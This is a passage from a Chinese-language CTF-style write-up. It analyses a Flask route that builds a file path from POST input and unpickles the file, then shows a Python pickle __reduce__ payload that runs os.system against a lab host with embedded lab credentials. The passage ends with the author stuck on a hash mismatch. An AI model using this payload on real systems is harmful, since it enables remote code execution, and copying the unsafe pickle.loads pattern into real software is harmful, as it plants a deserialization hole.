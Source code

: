 ```python
```

这个路由会将 POST 过去的数据中的 `check` 变量提取出来，组合为文件名并进行读取

```python
if request.method == "POST" and request.form["check"]:
        path_page    = "/opt/project/uploads/%s.log" %(request.form["check"])
        open_page    = open(path_page, "rb").read()
```

这里结合上文的分析，很容易就能发现是读取上文的日志文件

然后接下来进入数据检查部分

```python
if "p1" in open_page
```

如果 `p1` 字段存在于数据中，则进入反序列化阶段

```python
open_page = pickle.loads(open_page)
return str(open_page)
```

### 尝试利用

在网上可以找到这篇 payload

```python
import os
import pickle
import hashlib
import requests

class CommandExecute(object):
    def __reduce__(self):
        return (os.system, ('ping -c 2 192.168.0.17',))

convert_data = pickle.dumps(CommandExecute())
convert_crypt = hashlib.md5(convert_data).hexdigest()
send_requests = requests.post('http://192.168.0.44:1337/', data={"story":convert_data, "submit":"Submit+Query"}, auth=("lucas", "SuperSecretPassword123!"))
check_requests = requests.post('http://192.168.0.44:1337/checklist', data={"check":convert_crypt}, auth=("lucas", "SuperSecretPassword123!"))
print(check_requests.text)
```

但是实际上由于传输过程中的编码缘故，最终计算出来的哈希不应该由 `hashlib.md5(pickle.dumps(CommandExecute())).hexdigest()` 来计算，建议开一个 Burp Suite 抓包进行计算

:::warning

这里会遇到远程服务接受的数据与本地发送的数据不一致的问题，挺神奇，即使我直接本地用相同的代码起了一个相同的服务端，都没找到问题在哪里

按理来说，http 发送前会经历一遍 url encode 之后，在服务端再执行 url decode 一遍，但是不清楚哪里出现问题

严重卡壳
